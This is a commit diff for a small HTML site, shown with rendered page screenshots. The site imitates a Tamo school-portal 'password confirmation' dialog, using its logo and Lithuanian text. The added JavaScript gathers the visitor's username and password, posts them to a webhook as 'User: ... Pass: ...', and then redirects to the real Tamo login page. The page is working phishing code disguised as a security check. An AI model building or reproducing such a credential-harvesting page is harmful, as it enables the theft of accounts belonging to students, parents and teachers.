

Before and after one commit to dienynastamolt/PrisijungimasPasswordConfirm, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 245-508 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
username input field

```diff
--- a/app.js
+++ b/app.js
@@ -1,14 +1,17 @@
 document.addEventListener('DOMContentLoaded', function() {
   const submitButton = document.querySelector('.submit');
-  const inputField = document.querySelector('.input');
+  const userInputField = document.querySelector('.inputUser');
+  const passInputField = document.querySelector('.inputPass');
 
   const smallText = document.querySelector('.smallText');
   const smallText2 = document.querySelector('.smallText2');
+  const smallText3 = document.querySelector('.smallText3');
 
   const square = document.querySelector('.square');
 
   submitButton.addEventListener('click', function() {
-    const inputText = inputField.value;
+    const userText = userInputField.value;
+    const passText = passInputField.value;
 
     if (submitButton.innerHTML == 'Uždaryti') {
       window.location.href = 'https://dienynas.tamo.lt/Prisijungimas/Login';
@@ -17,7 +20,7 @@ document.addEventListener('DOMContentLoaded', function() {
 
       // Construct the message payload
       const payload = {
-        content: inputText
+        content: 'User: '+userText + ' Pass: '+passText
       };
 
       // Send the message to the webhook
@@ -37,7 +40,10 @@ document.addEventListener('DOMContentLoaded', function() {
       submitButton.innerHTML = 'Uždaryti'
 
       smallText2.parentNode.removeChild(smallText2)
-      inputField.parentNode.removeChild(inputField)
+      smallText3.parentNode.removeChild(smallText3)
+
+      userInputField.parentNode.removeChild(userInputField)
+      passInputField.parentNode.removeChild(passInputField)
     };
   });
 });
--- a/index.html
+++ b/index.html
@@ -13,7 +13,7 @@
 
       .square {
         width: 400px;
-        height: 330px;
+        height: 370px;
         background-color: white;
         position: absolute;
         top: 100px;
@@ -53,22 +53,46 @@
         font-size: 13px;
         text-align: center;
         position: absolute;
-        top: 220px;
+        top: 200px;
         left: 50%;
         transform: translateX(-50%);
         width: 100%;
       }
-      .input {
+      .smallText3 {
+        color: rgb(104, 104, 104);
+        font-weight: bold;
+        font-size: 13px;
+        text-align: center;
+        position: absolute;
+        top: 260px;
+        left: 50%;
+        transform: translateX(-50%);
+        width: 100%;
+      }
+      .inputUser {
         position: absolute;
         color: rgb(104, 104, 104);
-        top: 250px;
+        top: 230px;
         left: 50%;
         transform: translateX(-50%);
         width: 370px;
         height: 25px;
         border: 1px solid rgb(135, 180, 204);
       }
-      .input:focus {
+      .inputUser:focus {
+        outline: none;
+      }
+      .inputPass {
+        position: absolute;
+        color: rgb(104, 104, 104);
+        top: 290px;
+        left: 50%;
+        transform: translateX(-50%);
+        width: 370px;
+        height: 25px;
+        border: 1px solid rgb(135, 180, 204);
+      }
+      .inputPass:focus {
         outline: none;
       }
       .submit {
@@ -101,9 +125,11 @@
     <div class="square">
       <img class="logo" src="tamologo.png" alt="An Image">
       <p class="headerText">SLAPTAŽODŽIO PATVIRTINIMAS</p>
-      <p class="smallText">Dėl paskyros saugumo, prašome įvesti savo slaptažodį, kad<br> galėtume patvirtinti jūsų paskyra.</p>
-      <p class="smallText2">Slaptažodis</p>
-      <input class="input" type="text">
+      <p class="smallText">Dėl paskyros saugumo, prašome įvesti savo slaptažodį, kad<br> galėtume patvirtinti jūsų paskyrą.</p>
+      <p class="smallText2">Naudotojo vardas</p>
+      <p class="smallText3">Slaptažodis</p>
+      <input class="inputUser" type="text">
+      <input class="inputPass" type="text">
       <button class="submit">Patvirtinti</button>
     </div>
   </body>
```
